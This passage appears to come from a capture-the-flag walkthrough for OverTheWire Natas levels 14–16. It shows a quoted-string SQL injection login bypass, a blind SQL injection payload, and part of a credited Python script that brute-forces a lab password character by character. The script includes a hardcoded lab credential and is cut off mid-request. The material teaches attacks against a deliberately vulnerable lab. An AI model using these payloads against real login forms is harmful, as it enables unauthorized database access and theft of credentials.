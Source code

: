 which means the query takes our input as it is and there is no input sanitization.

5. We can use SQL injection directly, by entering

		Username: "or""="
		Password: "or""="

7. This will directly give us the password to the next level.

### Natas Level 15 → Level 16  
**Key Takeaways**: This level challenges you to perform blind SQL injection. The server gives no visible output about whether a login attempt succeeded or failed — instead, you infer success based on subtle clues (e.g., different page content).

**Procedure**:

1. Log in using the username `natas15` and the password obtained from Level 14.

2. The page presents a login form with just a username field (no password).

3. View source code using the link provided. 

4. The query checks for:
   
   		SELECT * from users where username=\"".$_REQUEST["username"]."\"
   
5. The goal is to extract the password for natas16 by asking yes/no questions in SQL. Example payload:

		natas16" AND SUBSTRING(password,1,1) = "a" #

6. If the first character is "a", the page content will change to indicate the user exists.

7. Automate this by writing a script (Python, Bash, etc.) to loop through characters and positions:

- Try all possible characters (a-z, A-Z, 0-9).

- For each position in the password, test each character.

- When you get a hit, record the character and move to the next position.

  Sample script (Credits: John Hammond): https://github.com/JohnHammond/overthewire_natas_solutions/blob/master/natas15.py

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import time
from string import ascii_lowercase, ascii_uppercase, digits

characters = ascii_lowercase + ascii_uppercase + digits
print(characters)

username = 'natas15'
password = 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx'

url = f'http://{username}.natas.labs.overthewire.org/'

session = requests.Session()
seen_password = []

while True:
    for ch in characters:
        attempt = "".join(seen_password) + ch
        print(f"Trying with password: {attempt}")
        try:
            response = session.post(
                url,
                data={"username": f'natas16" AND BINARY password LIKE "{attempt}%" #'},
                auth=(username, password),
```